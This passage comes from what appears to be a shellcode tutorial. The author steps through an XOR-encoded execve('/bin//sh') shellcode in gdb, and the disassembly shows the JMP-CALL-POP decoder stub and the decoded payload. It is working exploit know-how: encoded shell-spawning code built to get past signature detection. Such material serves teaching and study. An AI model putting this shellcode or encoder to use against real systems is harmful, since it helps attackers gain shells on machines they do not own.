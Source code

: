 And let me actually keep stepping a little bit more. Let's setup a
breakpoint to the address 0x804a050 of our encoded shellcode.

```
(gdb) break *0x804a050
(gdb) c
Continuing.
Dump of assembler code for function code:
   0x0804a040 <+0>:	jmp    0x804a04b <code+11>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	xor    BYTE PTR [esi],0xaa
   0x0804a046 <+6>:	je     0x804a050 <code+16>
   0x0804a048 <+8>:	inc    esi
   0x0804a049 <+9>:	jmp    0x804a043 <code+3>
   0x0804a04b <+11>:	call   0x804a042 <code+2>
=> 0x0804a050 <+16>:	xor    eax,eax
   0x0804a052 <+18>:	push   eax
   0x0804a053 <+19>:	push   0x68732f2f
   0x0804a058 <+24>:	push   0x6e69622f
   0x0804a05d <+29>:	mov    ebx,esp
   0x0804a05f <+31>:	push   eax
   0x0804a060 <+32>:	mov    edx,esp
   0x0804a062 <+34>:	push   ebx
   0x0804a063 <+35>:	mov    ecx,esp
   0x0804a065 <+37>:	mov    al,0xb
   0x0804a067 <+39>:	int    0x80
   0x0804a069 <+41>:	add    BYTE PTR [eax],al
End of assembler dump.
=> 0x804a050 <code+16>:	xor    eax,eax
   0x804a052 <code+18>:	push   eax
   0x804a053 <code+19>:	push   0x68732f2f
   0x804a058 <code+24>:	push   0x6e69622f
   0x804a05d <code+29>:	mov    ebx,esp
   0x804a05f <code+31>:	push   eax
   0x804a060 <code+32>:	mov    edx,esp
   0x804a062 <code+34>:	push   ebx
   0x804a063 <code+35>:	mov    ecx,esp
   0x804a065 <code+37>:	mov    al,0xb
0x804a050 <code+16>:	0x31
```

Because I know as soon as decoding of my shellcode happens that there
where control goes. And now notice something extremly interesting, you
would notice that all garbage down below which was there

```
=> 0x804a050 <code+16>:	xor    eax,eax
   0x804a052 <code+18>:	push   eax
   0x804a053 <code+19>:	push   0x68732f2f
   0x804a058 <code+24>:	push   0x6e69622f
   0x804a05d <code+29>:	mov    ebx,esp
   0x804a05f <code+31>:	push   eax
   0x804a060 <code+32>:	mov    edx,esp
   0x804a062 <code+34>:	push   ebx
   0x804a063 <code+35>:	mov    ecx,esp
   0x804a065 <code+37>:	mov    al,0xb
   0x0804a067 <+39>:    int    0x80
   0x0804a069 <+41>:    add    BYTE PTR [eax],al
```
